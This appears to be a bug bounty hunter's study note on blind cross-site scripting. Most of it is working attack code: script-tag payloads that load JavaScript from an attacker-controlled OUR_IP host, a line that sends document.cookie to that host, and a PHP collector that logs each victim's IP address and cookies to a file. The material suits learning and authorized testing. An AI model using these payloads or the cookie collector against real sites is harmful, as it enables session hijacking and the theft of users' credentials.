 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounty-hunter/cross-site-scripting/blind-xss-vulnerability/","tags":["XSS/BlindXSS","XSS"]}
---
```



A *blind XSS vulnerability* is a [[Cybersecurity/Bug Bounty Hunter/Cross-Site Scripting/Cross-Site Scripting (XSS)\|Cross-Site Scripting (XSS)]] vulnerability that occurs when the vulnerability is triggered on a page we don't have access to.

To see if a hidden page is susceptible to *blind XSS* we use [[Programming/JavaScript\|JavaScript]] payload that sends an HTTP request back to our server.  If the code gets executed, we'll get a response on our machine.

To load a remote script we can provide the URL like so:

```html
	<script src="http://our_ip/script.js"></script>
```

We then change the field "script.js" name to the field that we're want (e.g, "username") so if we get a request for http://our_ip/username" then we know the username field is susceptible.

Some example payloads we can use from [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings):
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Generally, we try each available field with one of the payloads.  Set the payload to call http://our_IP/FieldName

Once we identify the field name, we use a payload that will call our machine and run a script (script.js) that makes a call with the document cookie.
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```
Inject this code into the vulnerable field:
```html
<script src=http://OUR_IP/script.js></script>
```

This will yield two calls to our machine.  The first to get the script.  The script will fire and send a request with the cookie attached.

index.php has the following code:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
